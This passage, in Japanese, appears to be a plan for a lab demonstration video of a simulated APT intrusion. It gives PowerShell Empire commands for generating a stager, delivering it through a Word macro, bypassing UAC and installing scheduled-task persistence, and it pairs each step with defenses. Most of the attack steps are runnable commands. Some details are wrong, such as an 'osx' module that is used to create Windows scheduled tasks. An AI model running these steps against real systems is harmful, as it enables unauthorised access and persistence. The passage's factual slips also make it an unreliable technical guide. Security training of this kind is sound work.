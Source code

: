      execute
     ```
  5. エージェントペイロードを生成：
     ```bash
     usestager multi/launcher
     set Listener http
     execute
     ```
     - 生成された`payload.ps1`をKaliのWebサーバーに配置（例：`/var/www/html`）
  6. Windows 10でWord文書を開き、マクロを実行（模擬的にユーザーが「マクロを有効化」）
     - Empireでエージェント接続を確認
- **動画用の工夫**:
  - 偽装メールの例（例：「緊急：請求書確認のお願い」）を画面表示
  - Word文書のマクロ有効化シーンをスローモーションで強調
  - **防御策**：マクロの無効化、アンチウイルス、ユーザートレーニング
  - 例：フィッシングメールの実際の例をYouTubeリンクで紹介（例：`https://youtu.be/UzHJ7fV0fhI`）

### ステップ4：権限昇格（Privilege Escalation）

- **目的**: 一般ユーザーから管理者権限を取得
- **ツール**: PowerShell Empire
- **手順**:
  1. Empireでエージェントを確認：
     ```bash
     agents
     ```
  2. 現在の権限を確認：
     ```bash
     interact [Agent_Name]
     shell whoami
     ```
  3. UACバイパスを試行：
     ```bash
     usemodule privesc/bypassuac
     execute
     ```
     - 成功後、管理者権限のエージェントを確認
  4. （代替）模擬的な脆弱性（例：弱いローカル管理者パスワード）を悪用：
     ```bash
     shell net user administrator [Weak_Password]
     ```
- **動画用の工夫**:
  - 権限昇格前後の`whoami`出力を比較表示
  - 「管理者権限でシステムを完全制御」とナレーション
  - **防御策**：最新のパッチ適用、最小権限の原則、UACの有効化

### ステップ5：持続的アクセス（Persistence）

- **目的**: 再接続可能なバックドアを設置
- **ツール**: PowerShell Empire
- **手順**:
  1. 永続化モジュールを使用：
     ```bash
     usemodule persistence/osx/schtasks
     set Agent [Agent_Name]
     execute
     ```
     - Windowsのスケジュールタスクでペイロードを定期実行
  2. Windows 10を再起動し、Empireで接続を確認
- **動画用の工夫**:
  - 再起動後の接続成功をカウントダウンで演出
  - 「APTは長期間潜伏し、気づかれません」と解説
  - **防御策**：定期的なログ監視、異常検知システム
